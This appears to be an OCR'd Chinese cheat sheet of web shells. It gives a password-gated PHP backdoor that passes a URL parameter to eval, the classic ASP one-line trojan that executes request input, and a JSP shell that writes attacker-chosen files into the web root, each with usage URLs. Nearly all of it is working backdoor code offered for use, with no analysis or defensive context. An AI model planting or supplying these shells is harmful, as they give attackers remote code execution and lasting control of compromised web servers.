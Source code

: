 ### php
使用方法
http://xxx.xxxx.xxx/xxxx.php?pwd=admin&action=eval&a=phpinfo();
<?php
　　$passwd="admin";if($_GET['pwd']!=$passwd)exit;
　　if($_GET['action']=="eval" && $_GET['a']){eval($_GET['a']);}
?>

### asp一句话木马
<%execute request("value")%>

### jsp
<% if(request.getParameter(“f”)!=null)(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter(“f”))).write(request.getParameter(“t”).getBytes());%>

保存为1.jsp

提交url为 http://localhost/1.jsp?f=1.txt&;t=hello

访问http://localhost/1.txt 出来hello

https://www.jianshu.com/p/123db17b78a0
